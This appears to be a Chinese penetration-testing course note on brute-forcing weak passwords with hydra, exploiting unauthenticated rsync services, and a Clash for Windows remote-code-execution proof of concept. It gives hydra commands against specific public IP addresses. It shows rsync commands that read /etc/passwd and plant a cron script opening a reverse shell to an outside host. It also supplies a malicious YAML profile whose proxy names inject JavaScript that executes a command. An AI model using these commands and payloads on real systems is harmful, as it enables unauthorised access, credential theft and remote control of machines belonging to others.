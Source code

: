 
---

QQ&WPS等RCE&hydra口令猜解&未授权检测

# 端口协议

口令爆破&未授权

## -弱口令爆破

https://github.com/vanhauser-thc/thc-hydra
hydra是一个自动化的爆破工具，暴力破解弱密码，是一个支持众多协议的爆破工具，已经集成到KaliLinux中，直接在终端打开即可

```
-s PORT 可通过这个参数指定非默认端口。

-l LOGIN 指定破解的用户，对特定用户破解。

-L FILE 指定用户名字典。

-p PASS 小写，指定密码破解，少用，一般是采用密码字典。

-P FILE 大写，指定密码字典。

-e ns 可选选项，n：空密码试探，s：使用指定用户和密码试探。

-C FILE 使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数。

-M FILE 指定目标列表文件一行一条。

-o FILE 指定结果输出文件。

-f 在使用-M参数以后，找到第一对登录名或者密码的时候中止破解。

-t TASKS 同时运行的线程数，默认为16。

-w TIME 设置最大超时的时间，单位秒，默认是30s。

-v / -V 显示详细过程。

server 目标ip

service 指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等。
```

```
例子：

FTP：文件传输协议

RDP：Windows远程桌面协议

SSH：Linux安全外壳协议

hydra -L test -P 10top1K.txt 47.110.53.159 ftp -V

hydra -l root -P 10top1K.txt 47.110.53.159 ssh -V

hydra -l administrator -P 10top1K.txt 47.110.53.159 rdp -V
```

## 未授权案例：

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件

```
判断：rsync rsync://120.27.220.186:57830/
```

```
利用：

-读取文件：rsync rsync://120.27.220.186:57830/src/

-下载文件：rsync rsync://120.27.220.186:57830/src/etc/passwd ./

-上传文件：rsync -av passwd rsync://120.27.220.186:57830/src/tmp/passwd
```

```
反弹shell：写入计划任务

1、获取信息：

rsync rsync://120.27.220.186:57830/src/etc/crontab /root/cron.txt

2.创建文件

touch shell

#!/bin/bash

/bin/bash -i >& /dev/tcp/47.94.236.117/5566 0>&1

chmod +x shell

3、上传文件

rsync -av shell rsync://120.27.220.186:57830/src/etc/cron.hourly

4、等待接受反弹
```

# 桌面应用

QQ&WPS&Clash

-QQ RCE 漏洞复现
不行了

-WPS RCE 漏洞复现
第80天复现讲过，鸡肋


-Clash RCE 漏洞复现
暂时只弹了计算器
```
Windows：Clash.for.Windows 版别 <= v 0.19.8

Mac：Clash.for.Windows.app版别 <= v0.19.81
```
利用
```
1、本地创立一个.yaml的文件

port: 7890

socks-port: 7891

allow-lan: true

mode: Rule

log-level: info

external-controller: :9090

proxies:

- name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: socks5

server: 127.0.0.1

port: "17938"

skip-cert-verify: true

- name: abc

type: socks5

server: 127.0.0.1

port: "8088"

skip-cert-verify: true

proxy-groups:

-

name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

type: select

proxies:

- a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>

2、Profiles挑选导入.yaml

3、切换节点之后成功调用代码执行
```